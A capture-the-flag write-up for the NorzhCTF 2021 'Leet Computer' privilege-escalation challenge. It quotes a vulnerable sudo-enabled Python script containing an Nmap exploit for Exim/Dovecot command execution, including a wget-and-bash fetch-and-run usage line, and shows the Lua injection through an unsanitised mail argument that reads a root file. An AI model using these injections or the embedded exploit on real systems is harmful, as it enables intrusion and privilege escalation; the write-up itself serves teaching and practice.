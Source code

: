 # NorzhCTF 2021 - Leet Computer

## The Challenge

> One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.
> 
> \- by Masterfox

## Context

NorzhCTF was a hackquest style CTF so we had to complete another challenge first to unlock this. The previous challenge was to get a shell on the 'attacker's machine and this one was a privilege escalation challenge.

## Tl;dr

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

## How we solved it

For this CTF I was on the Digital Overdose CTF team and my one of my teammates had completed the previous challenge. I was looking around the machine for any obviously exploitable things but I couldn't find much at all. One of my teammates noticed that the user (e11i0t) already had sudo. They ran `sudo -l` and found that the user could only run one file with sudo called `mail_scan.py`. `sudo -l` is quite a useful command that I didn't know about before and I don't think I could have completed the challenge without my teammate introducing it to me (thanks [@revdev1337](https://twitter.com/revdev1337 "Twitter: @revdev1337")). Below is the contents of `mail_scan.py`.

```python
#!/usr/bin/env python3
#coding: utf-8

import argparse
from tempfile import NamedTemporaryFile
from os import system
import re

TEMPLATE_NSE = """
description = [[
Attempts to exploit a remote command execution vulnerability in misconfigured Dovecot/Exim mail servers.

It is important to note that the mail server will not return the output of the command. The mail server
also wont allow space characters but they can be replaced with "${{IFS}}". Commands can also be
concatenated with "``". The script takes care of the conversion automatically.

References:
* https://www.redteam-pentesting.de/en/advisories/rt-sa-2013-001/-exim-with-dovecot-typical-misconfiguration-leads-to-remote-command-execution
* http://immunityproducts.blogspot.mx/2013/05/how-common-is-common-exim-and-dovecot.html
* CVE not available yet
]]

---
-- @usage nmap -sV --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="uname -a" <target>
-- @usage nmap -p586 --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="wget -O /tmp/p example.com/test.sh;bash /tmp/p" <target>
--
-- @output
-- PORT    STATE SERVICE REASON
-- 465/tcp open  smtps   syn-ack
-- |_smtp-dovecot-exim-exec: Malicious payload delivered:250 OK id=XXX
--
-- @args smtp-dovecot-exim-exec.cmd Command to execute. Separate commands with ";".
-- @args smtp-dovecot-exim-exec.auth Authentication scheme (Optional).
-- @args smtp-dovecot-exim-exec.user Authentication username (Optional).
-- @args smtp-dovecot-exim-exec.pwd Authentication password (Optional).
-- @args smtp-dovecot-exim-exec.from Email address to use in the FROM field. Default: nmap+domain. (Optional).
-- @args smtp-dovecot-exim-exec.to Email address to use in the TO field. Default: nmap@mailinator.com
-- @args smtp-dovecot-exim-exec.timeout Timeout value. Default: 8000. (Optional)
-- @args smtp-dovecot-exim-exec.domain Domain name to use. It attempts to set this field automatically. (Optional)
---

author = "Paulino Calderon <calderon@websec.mx>"
license = "Same as Nmap--See http://nmap.org/book/man-legal.html"
categories = {{"exploit"}}

local smtp = require "smtp"
local shortport = require "shortport"
local stdnse = require "stdnse"

portrule = shortport.port_or_service({{25, 465, 587}},
                {{"smtp", "smtps", "submission"}})


action = function(host, port)
  local cmd = stdnse.get_script_args(SCRIPT_NAME..".cmd") or "uname"
  --Prepare payload
  cmd = string.gsub(cmd, " ", "${{IFS}}")
  cmd = string.gsub(cmd, ";", "``")

  local user = stdnse.get_script_args(SCRIPT_NAME..".user") or nil
  local pwd = stdnse.get_script_args(SCRIPT_NAME..".pwd") or nil
  local from = stdnse.get_script_args(SCRIPT_NAME..".from") or "nmap@"..smtp.get_domain(host)
  local to = "{mail_address}"
  local conn_timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 8000
  local smtp_domain = stdnse.get_script_args(SCRIPT_NAME..".domain") or smtp.get_domain(host)

  local smtp_opts = {{
    ssl = true, timeout = conn_timeout, recv_before = true, lines = 1
  }}
  local smtp_conn = smtp.connect(host, port, smtp_opts)

  local status, resp = smtp.ehlo(smtp_conn, smtp_domain)
  local auth_mech = stdnse.get_script_args(SCRIPT_NAME..".auth") or smtp.get_auth_mech(resp)
  if type(auth_mech) == "string" then
    auth_mech = {{ auth_mech }}
  end

  if (user and pwd) then
    status = false
    stdnse.print_debug(1, "%s:Mail server requires authentication.", SCRIPT_NAME)
    for i, mech in ipairs(auth_mech) do
      stdnse.print_debug(1, "Trying to authenticate using the method:%s", mech)
      status, resp = smtp.login(smtp_conn, user, pwd, mech)
      if status then
        break
      end
    end
    if not(status) then
      stdnse.print_debug(1, "%s:Authentication failed using user '%s' and password '%s'", SCRIPT_NAME, user, pwd)
      return nil
    end
  end

  --Sends MAIL cmd and injects malicious payload
  local from_frags =  stdnse.strsplit("@", from)
  local malicious_from_field = from_frags[1].."`"..cmd.."`@"..from_frags[2]
  stdnse.print_debug(1, "%s:Setting malicious MAIL FROM field to:%s", SCRIPT_NAME, malicious_from_field)
  status, resp = smtp.mail(smtp_conn, malicious_from_field)
  if not(status) then
    stdnse.print_debug(1, "%s:Payload failed:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets recipient
  status, resp = smtp.recipient(smtp_conn, to)
  if not(status) then
    stdnse.print_debug(1, "%s:Cannot set recipient:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets data and deliver email
  status, resp = smtp.datasend(smtp_conn, "nse")
  if status then
    return string.format("Malicious payload delivered:%s", resp)
  else
    stdnse.print_debug(1, "%s:Payload could not be delivered:%s", SCRIPT_NAME, resp)
  end
  return nil
 end
"""

parser = argparse.ArgumentParser()
parser.add_argument('--ip', required=True, help='IP of the Dovecot to attacc')
parser.add_argument('--mail', required=True, help='Mail address to check')
args = parser.parse_args()

# Arguments validation
ipregex = re.compile('^([0-9]{3}\.){3}[0-9]{3}$')
if not ipregex.match(args.ip):
  print("Error: IP argument is invalid")
  exit(1)

f = NamedTemporaryFile(suffix=".nse")
with open(f.name, "w") as tmp_file:
    tmp_file.write(TEMPLATE_NSE.format(mail_address=args.mail))
system("nmap --script={} '{}'".format(tmp_file.name, args.ip))
```

I read through the code and figured that it was creating an nmap script, saving it to a temp file and running it 🚨 with user supplied input 🚨.

The program took two parameters; ip, and mail. First I checked the ip regex (as the ip was inserted straight into a shell command) and I thought I might be able to get around the check by including a newline in the ip address, however this didn't work as the multiline option was not specified in the regex and therefore the `^` and `$` were the start and end of the string not the line. The payload I tried is below;

```sh
# the regex is a bit weird so the components of the ip all have to be three digits
sudo ./mail_scan.py --ip $'010.001.001.001\n; echo hi' --mail 'blah'
```

Circumventing the regex didn't work however I could verify that inserting a newline into the argument had worked.

Next I looked at how `args.mail` was being used and found that it was getting inserted straight into the nmap script with no sanitisation. I tried injecting a quotation mark into the mail parameter and it did indeed throw an error when running the nmap script.

Nmap scripts are written in lua so I just injected a call to `os.execute` to read the flag. This means that if nmap finds an open mail port we get the flag, all I had to do now was point it at a server with a mail port open.

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

And there you go, we have the flag; `NORZH{e11i0t_1s_s0_1337!!}`

## What I learnt

1. `sudo -l` is really useful for finding what commands a user can run as root
2. it is trivial to add newlines to command line arguments
3. DONT EVER USE UNSANITISED USER INPUT

## Conclusion

This challenge was a nice confidence boost after working away at 3 other challenges and not being able to solve any of them.

Overall NorzhCTF was a very unique competition and I found the hackquest style quite interesting, however I still prefer jeopardy style CTFs for now because they are more beginner friendly.